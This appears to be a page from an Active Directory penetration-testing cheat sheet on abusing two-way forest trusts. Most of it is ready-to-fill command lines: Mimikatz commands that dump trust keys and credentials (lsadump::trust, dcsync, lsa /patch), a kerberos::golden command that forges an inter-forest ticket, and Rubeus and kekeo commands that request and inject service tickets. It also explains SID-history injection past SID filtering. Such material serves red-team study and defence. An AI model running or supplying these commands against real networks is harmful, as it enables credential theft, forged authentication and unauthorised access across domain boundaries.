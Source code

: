 ### Trust key
-  By abusing the trust flow between forests in a two way trust, it is possible to access resources across the forest boundary which are explicity shared with a specific forest.
-  There is no way to enumerate which resources are shared.

#### Dump trust keys
- Look for in trust key from child to parent (first command)
```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -Computername <COMPUTERNAME>
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<CHILD DOMAIN>\<PARENT DOMAIN>$"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

#### Create a intern-forest TGT
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /rc4:<HASH OF TRUST KEY> /service:krbtgt /target:<TARGET FOREST> /sids:<SIDS> /ticket:<KIRBI FILE>"'
```

#### Create and inject TGS
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
.\Rubeus.exe asktgs /ticket:<KIRBI FILE> /service:CIFS/<TARGET SERVER> /dc:<TARGET FOREST DC> /ptt
```

#### Create a TGS for a service (kekeo_old)
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
./asktgs.exe <KIRBI FILE> CIFS/<TARGET SERVER>
```

#### Inject the TGS
```
./kirbikator.exe lsa <KIRBI FILE>
```

#### Check access to server
```
dir \\<SERVER NAME>\<SHARE>\
```

### SID history enabled
- This is fine but why can't we access all resources just like Intra forest?
- SID Filtering is the answer. It filters high privilege SIDs from the SIDHistory of a TGT crossing forest boundary. This means we cannot just go ahead and access resources in the trusting forest as an Enterprise Admin.
- If a external trust has SID history enabled. It is possible to inject a SIDHistory for RID => 1000 (higher then 1000) to access resources accessible to that identity or group in the target trusting forest. Needs to be user created!
- This means, if we have an external trust (or a forest trust with SID history enabled /enablesidhistory:yes), we can inject a SIDHistory for RID > 1000 to access resources accessible to that identity or group in the target trusting forest. 
